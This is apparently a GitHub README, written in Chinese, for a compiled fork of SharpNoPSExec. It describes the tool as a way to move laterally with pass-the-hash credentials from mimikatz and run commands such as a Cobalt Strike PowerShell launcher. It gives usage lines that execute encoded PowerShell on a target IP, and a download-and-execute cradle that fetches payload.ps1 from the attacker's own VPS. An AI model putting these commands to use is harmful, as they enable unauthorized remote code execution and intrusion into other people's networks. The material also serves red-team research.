 # SharpNoPSExec

- fork from https://github.com/juliourena/SharpNoPSExec

- 上面那个项目是用来横向移动PTH的，配合mimikatz，可以直接执行命令（比如powershell 上线cs），而不像一般建立IPC$，然后复制文件到目标上执行
- 原项目未编译，这里给他编译下
- 局限性：只能在.net 4.0下运行
![image](https://user-images.githubusercontent.com/51697332/141228831-bd18fb77-9fe9-4466-a8ba-7c1588199ba4.png)
```
SharpNoPSExec.exe --target=192.168.0.2 --payload="c:\windows\system32\cmd.exe /c powershell -exec bypass -nop -e ZQBjAGgAbwAgAEcAbwBkACAAQgBsAGUAcwBzACAAWQBvAHUAIQA="
SharpNoPSExec.exe --target=192.168.0.2 --payload="c:\windows\system32\cmd.exe /c powershell -nop -c iex(New-Object Net.WebClient).DownloadString('http://你的vps:80/payload.ps1')"
```
- #仅做记录用，侵删
